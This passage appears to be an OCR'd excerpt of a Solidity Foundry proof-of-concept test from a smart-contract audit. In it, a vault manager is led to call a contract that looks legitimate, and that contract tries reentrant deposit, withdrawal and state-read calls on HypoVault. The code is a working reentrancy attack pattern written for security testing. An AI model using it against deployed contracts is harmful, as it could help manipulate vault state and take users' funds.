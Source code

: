 ```solidity
    vault.requestWithdrawal(uint128(aliceShares / 2));
    
    MaliciousContractTiming malicious = new MaliciousContractTiming();
    
    vm.startPrank(Manager);
    
    console.log("Vault state during transition:");
    console.log("- Alice balance:", vault.balanceOf(Alice));
    console.log("- Withdrawal epoch:", vault.withdrawalEpoch());
    console.log("- Reserved assets:", vault.reservedWithdrawalAssets());
    
    // Manager calls what they think is a legitimate protocol
    bytes memory data = abi.encodeCall(MaliciousContractTiming.timingAttack, ());
    vault.manage(address(malicious), data, 0);
    
    console.log("After timing attack:");
    console.log("- Attack executed:", malicious.attackExecuted());
    console.log("- Withdrawal manipulation attempted:", malicious.withdrawalManipulated());
    
    vm.stopPrank();
    
    assertTrue(malicious.attackExecuted(), "Timing attack should have executed");
}


contract MaliciousContract {
bool public attackExecuted;
uint256 public reentryCount;

function innocentFunction(uint256 amount) external {
    // This looks like an innocent function a manager might call
    // But it contains malicious reentrancy logic
    
    if (msg.sender != address(0) && !attackExecuted) {
        attackExecuted = true;
        reentryCount++;
        
        console.log("REENTRANCY: Malicious contract executing attack...");
        
        // Try to reenter the vault with various function calls
        try HypoVault(msg.sender).requestDeposit(1) {
            console.log("SUCCESS: Called requestDeposit during reentrancy");
            reentryCount++;
        } catch {
            console.log("FAILED: requestDeposit call failed");
        }
        
        try HypoVault(msg.sender).requestWithdrawal(1) {
            console.log("SUCCESS: Called requestWithdrawal during reentrancy");
            reentryCount++;
        } catch {
            console.log("FAILED: requestWithdrawal call failed");
        }
        
        // Try to read state during reentrancy
        try HypoVault(msg.sender).totalSupply() returns (uint256 supply) {
            console.log("SUCCESS: Read totalSupply during reentrancy:", supply);
            reentryCount++;
        } catch {
            console.log("FAILED: totalSupply read failed");
        }
    }
}
```